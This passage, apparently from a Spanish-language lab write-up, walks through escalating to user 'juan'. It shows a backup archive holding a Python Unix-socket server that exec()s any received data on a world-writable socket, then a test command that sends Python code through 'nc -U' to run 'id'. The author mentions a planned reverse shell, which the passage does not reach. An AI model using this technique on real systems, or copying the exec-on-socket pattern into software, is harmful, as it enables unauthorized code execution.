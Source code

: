 Vemos una cosa interesante y es la siguiente linea:

```
/var/backups/socket.zip
```

Vamos a descomprimirlo y ver que contiene.

```shell
cd /tmp
unzip /var/backups/socket.zip
```

Vemos que nos extrae parte de la `/home` del usuario `juan` por lo que vamos a ver que contiene, si entramos veremos un archivo llamado `socket_server.py` que si lo leemos veremos esto.

```python
import socket
import os

sock_path = "/tmp/dev.sock"
if os.path.exists(sock_path):
    os.remove(sock_path)

server = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
server.bind(sock_path)
os.chmod(sock_path, 0o777)
server.listen(1)

while True:
    try:
        conn, _ = server.accept()
        data = conn.recv(2048)

        if data:
            try:
                exec(data.decode(), {"__builtins__": __builtins__})
                conn.send(b"Executed.\n")
            except Exception as e:
                conn.send(str(e).encode())

        conn.close()
    except:
        break

server.close()
```

Parece ser que es un servidor `socket` que esta realizando una conexion con el archivo de `/tmp` el que encontramos anteriormente en el cual cualquier usuario se puede conectar al `socket` y ejecutar cualquier cosa como el usuario `juan` por lo que vamos a crear una `reverse shell`.

Pero antes vamos a probar que los comandos se esten ejecutando bien:

```shell
echo 'import subprocess; raise Exception(subprocess.check_output("id", shell=True).decode())' | nc -U /tmp/dev.sock
```
